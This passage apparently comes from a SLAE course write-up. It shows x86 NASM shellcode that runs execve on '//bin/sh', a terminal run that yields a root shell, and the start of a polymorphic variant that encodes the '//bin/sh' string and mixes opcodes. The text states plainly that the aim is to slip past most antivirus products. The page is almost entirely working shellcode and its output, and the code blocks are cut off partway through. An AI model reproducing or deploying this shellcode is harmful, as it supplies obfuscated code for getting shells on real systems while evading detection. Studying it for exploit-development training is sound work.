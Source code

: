 ```nasm
    mov ebx,esp 

    xor eax,eax
    push eax
    lea edi,[ebx]
    push edi
    mov ecx,esp

    mov al,0xb
    int 0x80

here:
    call me
    path db "//bin/sh"
```
  
Let's execute the shellcode:  
```bash
# ./compile.sh execve && chmod u+x ./execve && ./execve
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
  
The advantage of this shellcode is that the opcodes have been already thought to obfuscate a bit the shellcode behavior. If we add a second layer we can be barely sure that the shellcode will bypass the majority of the AVs.  A good idea here is to obfuscate the **//bin/sh** variable and to add some garbage opcodes and/or to mix them.  
  
So let's have a look at our polymorphic shellcode [execve_polymorphic.nasm](https://github.com/phackt/slae/tree/master/assignment6/execve/execve_polymorphic.nasm):  
```nasm
global _start

section .text
_start:
    jmp short here

me:
    mov dword esi, [esp]    ; equivalent to mov the @ of our encoded //bin/sh into esi
    pop edi                 ; same @ in edi
    
    push 0x1                ; mix a little bit the opcodes
    pop eax
    dec eax
    push eax
    mov edx,esp

    xor ecx, ecx
    mov cl, 0x7             ; //bin/sh is 7 bytes long

dec1:                       
    mov eax, [edi + ecx]    ; we are looping on our string
    dec eax                 ; decrement the value
    mov [edi + ecx], eax    ; setting the right char into memory
    dec cl
    jns dec1                ; jump if not signed

    xor eax, eax            ; here we go for setting the right argument for our execve syscall
    push eax
    add esp,3
    lea esi,[esi+6]
```